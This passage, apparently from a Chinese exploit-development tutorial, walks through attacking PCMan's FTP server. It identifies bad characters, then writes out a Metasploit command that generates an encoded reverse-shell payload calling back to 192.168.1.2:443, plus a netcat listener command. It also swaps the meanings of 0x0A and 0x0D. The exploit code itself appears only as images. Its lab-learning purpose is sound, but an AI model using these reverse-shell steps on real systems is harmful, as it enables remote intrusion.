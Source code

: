 可以发现没有坏字符了，这里我们找到了三个坏字符，它们分别是0x0D，0x0A和0x00。可以发现0x0A表示回车，0x0D表示换行，0x00表示字符串的结束，这样就很容易理解它们为什么是坏字符了。

<br>

**定制Shellcode**

我们已经找到了坏字符，我们知道我们的shellcode中不能包含这些字符，现在让我们来生成shellcode。这里我们没必要自己来写，强大的Metasploit帮助我们解决了问题。我们来使用msfpayload生成一个shellcode，当然我这边没升级，你要是最新版是没有msfpayload，而是msfvenom，用法基本上差不多，就不多做介绍了。

[![](https://p2.ssl.qhimg.com/t010325586b5522934b.png)](https://p2.ssl.qhimg.com/t010325586b5522934b.png)

我们来检查一下shellcode，可以发现其中有0x00，我们在上面知道出现0x00、0x0A或0X0D都会破坏我们的payload。或者我们要告诉Metasploit不能使用那些字符。用下面命令试一下。

```
msfpayload windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 R | msfencode -b 'x00x0ax0d' -e x86/shikata_ga_nai -t python
```

[![](https://p0.ssl.qhimg.com/t01b848aabce6cd7643.png)](https://p0.ssl.qhimg.com/t01b848aabce6cd7643.png)

接下来就是享受攻击的乐趣啦。

<br>

**攻击进行时-编写exploit**

经过上面的介绍，exploit编写很简单了，把shellcode和上面的fuzzer程序结合起来就行了。代码如下：

[![](https://p4.ssl.qhimg.com/t01d7061571e40907a6.png)](https://p4.ssl.qhimg.com/t01d7061571e40907a6.png)

现在我们先来使用nc来监听443端口

```
nc -lvp 443
```

运行我们的exploit，然后等待一段时间

[![](https://p0.ssl.qhimg.com/t01045a86361bdd471a.png)](https://p0.ssl.qhimg.com/t01045a86361bdd471a.png)

<br>

**总结**

一切很顺利啊，我们成功的获得了一个shell，当然这只是一个简单的例子，这里我在声明一下，本文仅做技术交流，请大家不要使用本文的exploit去攻击互联网上的PCMan’s FTP服务，大家可以使用VM虚拟机来学习一下。 
